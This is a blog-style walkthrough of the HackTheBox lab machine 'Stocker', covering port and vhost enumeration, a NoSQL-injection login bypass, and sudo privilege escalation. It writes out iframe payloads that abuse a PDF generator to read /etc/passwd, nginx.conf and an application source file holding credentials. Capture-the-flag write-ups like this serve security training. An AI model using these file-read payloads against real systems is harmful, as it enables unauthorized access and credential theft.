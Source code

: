 ```yaml
---
title: "Stocker"
collection: publications
permalink: /publication/stocker
excerpt: 'This is a free machine from HackTheBox'
date: 2023-03-02
venue: '03-02'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/stocker.png)

**LINK:** [Stocker](https://app.hackthebox.com/machines/Stocker**)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
# nmap -sC -sV -T4 10.10.11.196     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-01 11:20 EST
Nmap scan report for 10.10.11.196
Host is up (0.61s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.99 seconds
```

* We got 2 open ports : 80 (nginx web server) and 22 (SSH)

**Subdomains :**

```bash
# ffuf -u http://stocker.htb/FUZZ -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

js                      [Status: 301, Size: 178, Words: 6, Lines: 8]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8]
fonts                   [Status: 301, Size: 178, Words: 6, Lines: 8]
```

* nothing useful.

**Vhosts :**

```bash

ffuf -u http://stocker.htb -H "HOST: FUZZ.stocker.htb" -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -fc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.stocker.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 301
________________________________________________

dev                     [Status: 302, Size: 28, Words: 4, Lines: 1]
```

## Foothold :

* let's add the dev.stocker.htb to /etc/hosts and start inspecting the page : 
![stocker1](/images/stocker1.png)

* the first thing came to my mind is SQLi, i tried with a wordlist contains payloads to bypass a login page, but nothing worked until i noticed this response header

![response](/images/header5.png)

* I did some reasearch and i found that using **Express** as a back-end framework is a popular MongoDB stack design, and i know that MongoDB is a NOSQL database.
[Read more](https://ruptura-infosec.com/blog/nosql-noproblem/)

* Thanks to [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) i was able to bypass the login page and got redirected to /stock

![stock](/images/stocker3.png)

* I spent some time exploring the website, i noticed that when i add an item to the cart and the purchase is successful, the response contains an order_id 

![orderid](/images/stocker16.png)

* it renders out a PDF file in /api/po/order_id, when i saw that the title of the item is rendered to the pdf, i start manipulating with is until i was able to read a file that i wasn't supposed to.
![request](/images/stocker4.png)
![theresponse](/images/stocker5.png)

* Now it's time to read the /etc/passwd :

```bash
"title":"<iframe src=file:///etc/passwd height=1000px width=800px</iframe>
```


![etcpasswd](/images/stocker7.png)

* Now i got a username but i still need a password or a SSH key.
* Since it's a nginx web server, let's read the nginx.conf file 

```bash
"title":"<iframe src=file:///etc/nginx/nginx.conf height=1000px width=800px</iframe>
```

![nginx](/images/stocker8.png)

* Now i know where the dev.stocker.htb is located, i took a guess of the file name

```bash
"title":"<iframe src=file:///var/www/dev/index.js height=1000px width=800px</iframe>
```

![conffile](/images/stocker9.png)
![passwd](/images/stocker10.png)


* Now i have a username and a password, let's login using SSH

![ssh](/images/stocker11.png)

## Privilege Escalation: 

* First thing to do is to check sudo permissions

![sudo](/images/stocker12.png)

* we don't have permission to write or modify in /usr/local/scripts

![permission](/images/stocker13.png)

* But since we have a wildcard before __.js__ we can use a path traversal to execute a file we have directory write access to, and the best directory is __/tmp__

* I created a file called __exploit.js__ 
![exploit](/images/stocker14.png)

*Now it's time to execute it with sudo permission

![root](/images/stocker15.png)